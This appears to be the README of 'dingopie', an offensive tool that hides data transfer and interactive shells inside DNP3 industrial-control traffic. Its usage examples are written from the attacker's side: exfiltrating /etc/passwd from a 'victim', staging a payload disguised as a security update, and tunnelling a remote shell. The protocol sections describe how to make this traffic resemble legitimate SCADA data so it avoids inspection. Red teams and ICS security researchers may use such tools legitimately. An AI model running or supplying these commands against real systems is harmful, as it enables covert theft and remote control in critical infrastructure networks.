



# dingopie :wolf: :cake:

> a DNP3 covert channel


Dingopie is a tool for tunneling traffic over DNP3. There are two main functions: transferring files (send/receive), and establishing an interactive shell (shell/connect).

#### Exfiltrate a file
```bash
# on victim
$ dingopie server direct send --file /etc/passwd --key secret
# on attacker or intermediary
$ dingopie client direct receive --file loot/victim1-etc-passwd.txt --key secret --server-ip 10.1.2.3
```

#### Stage a payload
```bash
# on victim
$ dingopie server direct receive --file /tmp/security-update
# on attacker
$ dingopie client direct send --file payloads/janeks-box.bin
```

#### Tunnel a shell over DNP3
```bash
# on victim
$ dingopie server direct shell
# on attacker
$ dingopie client direct connect --server-ip 127.0.0.1
dingopie>       # This is a fully interactive shell
```

## Usage

dingopie has three different options: the role, the mode, and the action. Each is required: `dingopie {server|client} {direct|inject} {{send|receive}|{shell|connect}} ...`. Each session needs a client on one side and a server on the other, and a paired set of actions (either send/receive or shell/connect).

### Roles

* **Server** - The server role is designed to act like a DNP3 outstation, and should be placed 'lower' in the purdue model. The server needs to be started before the client.
* **Client** - The client role is designed to act like a DNP3 master, and should be run 'higher' in the purdue model.

### Modes

#### direct

In direct mode, dingopie creates a new DNP3 channel. Data is sent in DNP3 Application Objects. This traffic will be legitimate protocol-conforming DNP3, but is noticeable. It will originate on a port and host that are not already communicating using DNP3, and traffic inspection will likely show unusual usage, both in the amount of data transferred and the DNP3 characteristics. The advantage of direct mode is that it can be configured to run at high speeds, between any two devices.

#### inject

> [!WARNING]
> inject mode is not implemented yet. See the original [D1N0P13](https://github.com/nblair2/D1N0P13) for an example.

In inject mode, dingopie 'rides on top of' an existing DNP3 channel. Data is added to existing DNP3 packets (ostensibly created by a legitimate DNP3 program) as they leave one host, and on the other side this data is removed before allowing the packets to continue on to the legitimate DNP3 program. This will increase the size of packets sent between devices, but will take place over an existing DNP3 connection and is much less likely to be noticed. The disadvantage of filter mode is that its speed is constrained by the channel that it is using.

### Actions

Actions are paired, so that each side of a session needs to run one of the actions.

 * **send/receive** - transfers data in one direction (either server to client or the reverse).
* **shell/connect** - creates a pty on one device and allows the connecting device to run an interactive shell.

## Protocol

There are three different message sequences that dingopie uses depending on the role and action pairings.

### Primary (`server direct receive`, `client direct send`)

> Example [primary.pcapng.gz](.media/primary.pcapng.gz)

Primary is the term that the DNP3 specification uses for describing connections from a DNP3 master to outstation. Dingopie borrows this nomenclature to describe when a client is sending data to a server. This sequence uses DNP3 Direct Operate commands and Group 41, Variation 1 (Analog Output Command - 32 bit) objects to transfer data. Direct Operate commands need to be acknowledged, so each data message sent by the client will be echoed back by the server. This will result in high traffic volume. It is also unrealistic to see so many repeated (and random) commands.



### Secondary (`server direct send`, `client direct receive`)

> Example [secondary.pcapng.gz](.media/secondary.pcapng.gz)

Secondary is the opposite of primary (both in the DNP3 spec and for dingopie). This sequence is used for transferring data from a server to a client. It uses DNP3 Response messages and Group 30, Variation 1 (Analog Input - 32 bit) objects to transfer data. This is essentially the data acquisition in SCA**DA**, and therefore much closer to what a normal DNP3 connection looks like. When configured to run at low speeds (`--wait 5s`) and with a small number of objects (`--objects 5`), this sequence would be the closest to legitimate DNP3 traffic.



###  Shell (both `direct shell` and `direct connect` combinations)

> Example [shell.pcapng.gz](.media/shell.pcapng.gz)

The shell sequence is used for bi-directional data streaming between a client and server to support an interactive shell. It is the same regardless of which role is running which action. This sequence has some of the same characteristics as the primary and secondary sequences described above, with modification to make the communications simpler and faster. Data sent from client to server still uses Group 41 Variation 1 (Analog Output Command - 32 bit) objects, but the server now uses Direct Operate No Ack Commands to eliminate the need for the server to echo back each message. Data sent from server to client still uses Group 30 Variation 1 (Analog Input - 32 bit) objects, but the responses are now Unsolicited Responses, so that the server can send data as soon as it is available instead of waiting for a poll from the client. This traffic pattern is strange for DNP3, but required for an interactive shell.

